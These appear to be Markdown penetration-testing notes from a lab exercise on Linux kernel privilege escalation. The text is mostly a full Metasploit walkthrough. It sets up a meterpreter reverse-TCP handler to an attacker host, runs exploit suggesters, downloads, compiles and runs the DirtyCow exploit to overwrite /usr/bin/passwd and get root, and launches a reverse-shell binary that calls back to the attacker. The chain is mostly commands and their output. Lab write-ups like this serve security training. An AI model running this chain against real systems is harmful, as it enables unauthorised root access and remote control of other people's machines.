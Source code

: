 # Kernel Exploits

## 01 - Unix Shell

When enumerating for the kernel version manually through the manual steps on the Enumeration and Discovery section for [[System and Kernel Version]]. Once you're able to find the information with many ways to do it manually. Use the `searchsploit` tool to find the specific linux kernel version. However I must give you warning and advise. Exploiting kernel vulnerabilities may have the potential to cause the Linux machine to crash I would suggest you to keep it as last resort or you don't have any other way.

After you've executed the command browse around a bit of any particular vulnerability you're looking yet I do have a better suggestion to make this procedure even faster if you're not aware of the popular kernel exploits and it keeps happening maybe a few months or a year ago. Keep up with the cybersecurity news in order to ensure you are well informed.

`$ searchsploit linux kernel <version_number>`

Sometimes enumerating manually can be daunting and especially in a non-simulated cyber intrusion attackers have little time to spare to go through those steps due to any reasonable circumstances. That's why other developers have made auditing tools that could help us save more time. I highly suggest with **Linux-Exploit-Suggester** or **LinPEAS** for this scenario. Head towards to **Auditing Tools** section.

## 02 - Metasploit

### 2.1 - Detect

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set lhost 10.8.145.108
lhost => 10.8.145.108
msf6 exploit(multi/handler) > set lport 53
lport => 53
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.8.145.108:53
[*] Sending stage (989032 bytes) to 10.10.198.41
[*] Meterpreter session 1 opened (10.8.145.108:53 -> 10.10.198.41:53103) at 2022-05-23 13:11:27 -0400

meterpreter > getuid
Server username: TCM
meterpreter > sysinfo
Computer     : debian.localdomain
OS           : Debian 6.0.10 (Linux 2.6.32-5-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > run post/linux/gather/enum_system

[+] Info:
[+]     Debian GNU/Linux 6.0
[+]     Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64 GNU/Linux
[+]     Module running as "TCM" user
[*] Linux version stored in /root/.msf4/loot/20220523213906_default_10.10.54.27_linux.enum.syste_431671.txt
..[snip]..
meterpreter > run post/multi/recon/local_exploit_suggester showdescription=true

[*] 10.10.54.27 - Collecting local exploits for x64/linux...
[*] 10.10.54.27 - 47 exploit checks are being tried...
[+] 10.10.54.27 - exploit/linux/local/cve_2022_0995_watch_queue: The target appears to be vulnerable.
  This module exploits a vulnerability in the Linux Kernel's
  watch_queue event notification system. It relies on a heap
  out-of-bounds write in kernel memory. The exploit may fail on the
  first attempt so multiple attempts may be needed. Note that the
  exploit can potentially cause a denial of service if multiple failed
  attemps occur, however this is unlikely.
[+] 10.10.54.27 - exploit/linux/local/ptrace_sudo_token_priv_esc: The service is running, but could not be validated.
  This module attempts to gain root privileges by blindly injecting
  into the session user's running shell processes and executing
  commands by calling `system()`, in the hope that the process has
  valid cached sudo tokens with root privileges. The system must have
  gdb installed and permit ptrace. This module has been tested
  successfully on: Debian 9.8 (x64); and CentOS 7.4.1708 (x64).
[+] 10.10.54.27 - exploit/linux/local/rds_rds_page_copy_user_priv_esc: The target appears to be vulnerable.
  This module exploits a vulnerability in the `rds_page_copy_user`
  function in `net/rds/page.c` (RDS) in Linux kernel versions 2.6.30
  to 2.6.36-rc8 to execute code as root (CVE-2010-3904). This module
  has been tested successfully on: Fedora 13 (i686) kernel version
  2.6.33.3-85.fc13.i686.PAE; and Ubuntu 10.04 (x86_64) with kernel
  version 2.6.32-21-generic.
meterpreter > 


user@pentestos:~$ ./linux-exploit-suggester.sh -u "Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64 GNU/Linux"

Available information:

Kernel version: 2.6.32
Architecture: x86_64
Distribution: debian
Distribution version: N/A
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): N/A
Package listing: N/A

Searching among:

73 kernel space exploits
0 user space exploits

Possible Exploits:

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},[ RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31} ],RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},ubuntu=16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
..[snip]..
```

### 2.2 - Exploit

```
user@pentestos:~$ mkdir exploit && cd exploit
user@pentestos:~$ wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c

meterpreter > pwd
/home/user
meterpreter > mkdir exploit
Creating directory: exploit
meterpreter > upload exploit/c0w.c exploit/
[*] uploading  : /home/user/Documents/thm/linuxprivesc/exploit/c0w.c -> exploit/
[*] uploaded   : /home/user/Documents/thm/linuxprivesc/exploit/c0w.c -> exploit//c0w.c
meterpreter > cd exploit
meterpreter > execute -if gcc -a "-pthread c0w.c -o c0w"
Process 2803 created.
Channel 97 created.
meterpreter > shell -t
[*] env TERM=xterm HISTFILE= /usr/bin/script -qc /bin/bash /dev/null
Process 2828 created.
Channel 99 created.
TCM@debian:~/exploit$ ls
ls
c0w  c0w.c
TCM@debian:~/exploit$ ./c0w
./c0w

   (___)
   (o o)_____/
    @@ `     \
     \ ____, //usr/bin/passwd
     //    //
    ^^    ^^
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap 3752f000

madvise 0

ptrace 0

TCM@debian:~/exploit$ passwd
passwd
root@debian:/home/user/exploit# id
id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
root@debian:/home/user/exploit# cd ..
cd ..
root@debian:/home/user# ./rsh_x64 &
./rsh_x64 &
[1] 2865
root@debian:/home/user# exit
exit
exit
TCM@debian:~/exploit$ exit
exit
exit
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.8.145.108:53 
[*] Sending stage (3020772 bytes) to 10.10.54.27
[*] Meterpreter session 2 opened (10.8.145.108:53 -> 10.10.54.27:37893) at 2022-05-23 22:10:26 -0400

meterpreter > getuid
Server username: root
```

### 2.3 - Cleanup

```
meterpreter > rm /usr/bin/passwd
meterpreter > cp /tmp/bak /usr/bin/passwd
```

## References

- [Linux Kernel Exploits](https://github.com/SecWiki/linux-kernel-exploits)